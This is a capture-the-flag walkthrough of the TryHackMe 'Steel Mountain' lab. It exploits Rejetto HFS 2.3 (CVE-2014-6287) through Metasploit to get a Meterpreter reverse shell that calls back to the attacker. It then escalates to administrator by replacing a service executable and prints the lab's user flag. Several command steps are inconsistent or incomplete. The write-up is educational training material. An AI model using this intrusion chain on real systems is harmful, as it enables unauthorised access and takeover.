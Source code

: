```yaml
---
title: "TryHackMe - Steel Mountain Walkthrough"
date: 2024-12-13
categories: [TryHackMe]
tags: [RCE, Metasploit, Privilege Escalation, CVE-2014-6287]
image: assets/images/thm-cover/steel-mountain-Cover.jpg
---
```


# TryHackMe - Steel Mountain Walkthrough

---

## Initial Information
- **Target IP:** 10.10.32.47
- **Service:** HTTP File Server (HFS) v2.3

---

## Step 1: Explore the Target

### Access the Web Interface
Visit the target using a web browser:

```plaintext
http://10.10.32.47:8080/
```

HFS version identified: **Rejetto HTTP File Server 2.3**.

---

## Step 2: Vulnerability Analysis

### CVE Identification
The identified version is vulnerable to **CVE-2014-6287**, an unauthenticated Remote Code Execution vulnerability.

Refer to Metasploit for documentation:
[Metasploit Docs](https://docs.metasploit.com/).

---

## Step 3: Exploiting the Target

### Using Metasploit
Search for available exploits:

```bash
sleep33@THM:~$ msf6 > search rejetto
```

#### Relevant Modules:
1. **exploit/windows/http/rejetto_hfs_rce_cve_2024_23692**
2. **exploit/windows/http/rejetto_hfs_exec**

### Configure Exploit
Set up the exploit parameters:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.32.47
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST <Your_IP>
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
```

Run the exploit:

```bash
sleep33@THM:~$ msf6 exploit(windows/http/rejetto_hfs_exec) > run
```

---

## Step 4: Reverse Shell

Once the exploit is successful, a Meterpreter session is opened:

```bash
sleep33@THM:~$ [*] Meterpreter session 1 opened (10.14.91.33:4444 -> 10.10.32.47:49353)
```

#### Navigate to User Directory:
```bash
sleep33@THM:~$ meterpreter > cd c:/Users/bill/Desktop
sleep33@THM:~$ meterpreter > ls
```

Retrieve the user flag:

```bash
sleep33@THM:~$ meterpreter > cat user.txt
```

**User Flag:**  
```plaintext
b04763b6fcf51fcd7c13abc7db4fd365
```

---

## Step 5: Privilege Escalation

### Upload PowerUp Script
Use PowerSploit for privilege escalation:

```bash
sleep33@THM:~$ meterpreter > upload /opt/PowerSploit/Privesc/PowerUp.ps1
sleep33@THM:~$ meterpreter > load powershell
sleep33@THM:~$ meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks
```

### Service Manipulation
Identify and modify services for escalation:

```bash
sleep33@THM:~$ copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService_V2.exe"
sleep33@THM:~$ sc start AdvancedSystemCareService9
```

---

## Step 6: Gain Administrator Privileges

Use Meterpreter's shell command to escalate privileges:

```bash
sleep33@THM:~$ meterpreter > shell
sleep33@THM:~$ C:\windows\Tasks> sc start AdvancedSystemCareService9
```

Once elevated, navigate to the Administrator's directory:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> dir
```

Retrieve the root flag:

```bash
sleep33@THM:~$ C:\Users\Administrator\Desktop> cat root.txt
```

---

## Troubleshooting

### Common Issues:
- **Handler failed to bind:** Ensure your LHOST and LPORT settings are correctly configured.
- **Session not opened:** Recheck the exploit parameters and ensure the target is reachable.

---

## Summary

- **Exploited Service:** Rejetto HFS v2.3
- **Exploited Vulnerability:** CVE-2014-6287
- **Flags Captured:**
  - **User Flag:** b04763b6fcf51fcd7c13abc7db4fd365
  - **Root Flag:** <root_flag_value>

---
